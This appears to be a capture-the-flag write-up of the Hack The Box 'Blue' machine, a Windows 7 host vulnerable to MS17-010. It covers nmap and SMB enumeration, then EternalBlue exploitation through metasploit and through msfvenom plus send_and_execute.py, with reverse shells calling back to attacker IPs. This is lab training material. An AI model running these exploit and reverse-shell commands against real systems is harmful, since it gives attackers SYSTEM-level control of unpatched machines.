


# Blue

## Machine Info



## Recon

### port

- nmap
  - smb
  - rpc

```console
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Microsoft Windows 7 or Windows Server 2008 R2 (97%), Microsoft Windows Server 2008 SP1 (96%), Microsoft Windows Server 2008 SP2 (96%), Microsoft Windows 7 (96%), Microsoft Windows 7 SP0 - SP1, Windows Server 2008 SP1, Windows Server 2008 R2, Windows 8, or Windows 8.1 Update 1 (96%), Microsoft Windows 7 SP1 (96%), Microsoft Windows 8.1 Update 1 (96%), Microsoft Windows Vista or Windows 7 SP1 (96%), Microsoft Windows Vista SP1 - SP2, Windows Server 2008 SP2, or Windows 7 (96%), Microsoft Windows Vista SP1 (96%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

```console
Host script results:
|_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
| smb-vuln-ms17-010:
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|_smb-vuln-ms10-054: false
```

### smb

Enumerate samba service without authenticated credentials:

```console
└─╼$ smbmap -H 10.10.10.40 -u qwe -p qwe

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
 -----------------------------------------------------------------------------
     SMBMap - Samba Share Enumerator | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB
[*] Established 1 SMB session(s)

[+] IP: 10.10.10.40:445 Name: 10.10.10.40               Status: Authenticated
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    NO ACCESS       Remote IPC
        Share                                                   READ ONLY
        Users                                                   READ ONLY

└─╼$ smbclient //10.10.10.40/Users -N
Try "help" to get a list of possible commands.
smb: \> dir
  .                                  DR        0  Fri Jul 21 02:56:23 2017
  ..                                 DR        0  Fri Jul 21 02:56:23 2017
  Default                           DHR        0  Tue Jul 14 03:07:31 2009
  desktop.ini                       AHS      174  Tue Jul 14 00:54:24 2009
  Public                             DR        0  Tue Apr 12 03:51:29 2011

                4692735 blocks of size 4096. 644656 blocks available
smb: \> get desktop.ini
getting file \desktop.ini of size 174 as desktop.ini (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
smb: \> exit

└─╼$ cat desktop.ini

[.ShellClassInfo]
LocalizedResourceName=@%SystemRoot%\system32\shell32.dll,-21813

└─╼$ smbclient //10.10.10.40/Share -N
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Fri Jul 14 09:48:44 2017
  ..                                  D        0  Fri Jul 14 09:48:44 2017

                4692735 blocks of size 4096. 644656 blocks available
smb: \> exit
```

## Foothold

### CVE--2017-0143

#### metasploit

```console
└─╼$ msfconsole -q -x "use windows/smb/ms17_010_eternalblue; set payload windows/x64/meterpreter/reverse_tcp; set rhosts 10.10.10.40; set lhost 10.10.14.9; set lport 1234; exploit"
```




Find the flag:


#### python script

The first machine Legacy, I mention that the python script would not be used inside 2024 environment. But I forget that python virtual machine might provide a pure environment for impacket and other tools:

```bash
git clone https://github.com/SecureAuthCorp/impacket.git
cd impacket
virtualenv impacket-venv -p $(which python2)
source impacket-venv/bin/activate
wget https://bootstrap.pypa.io/pip/2.7/get-pip.py
python get-pip.py
pip install -r requirements.txt
```

**Exploit**:

- [fortra/impacket](https://github.com/fortra/impacket)
- [helviojunior/MS17-010: MS17-010](https://github.com/helviojunior/MS17-010)

```console
$ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.14 LPORT=4444 -f exe -o revshell.exe
$ python send_and_execute.py 10.10.10.40 revshell.exe
$ sudo rlwrap nc -lvnp 4444
```

## Exploit Chain

port scan -> CVE-2017-0143 -> eternal blue -> system shell
